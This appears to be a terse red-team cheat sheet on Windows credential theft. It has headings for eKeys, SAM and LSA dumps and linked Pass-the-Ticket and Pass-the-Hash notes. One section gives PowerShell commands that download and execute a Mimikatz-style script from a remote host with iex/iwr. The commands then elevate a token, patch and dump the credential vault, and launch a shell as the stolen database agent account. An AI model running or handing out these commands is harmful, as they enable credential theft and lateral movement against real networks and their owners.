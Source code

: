 # eKeys > [[Pass the Ticket]]


# SamDump (Local System)> [[Pass the Hash]]


# LSA Dump (Domain Cached) 


# Cred Vault > Scheduler Task 

Database agent account credentials extracted from credential vault
```powershell
PS > iex (iwr http://172.16.100.1/Invoke-Mimi.ps1 -UseBasicParsing)

PS > Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"'

PS > runas /netonly /user:tech\databaseagent powershell.exe
```
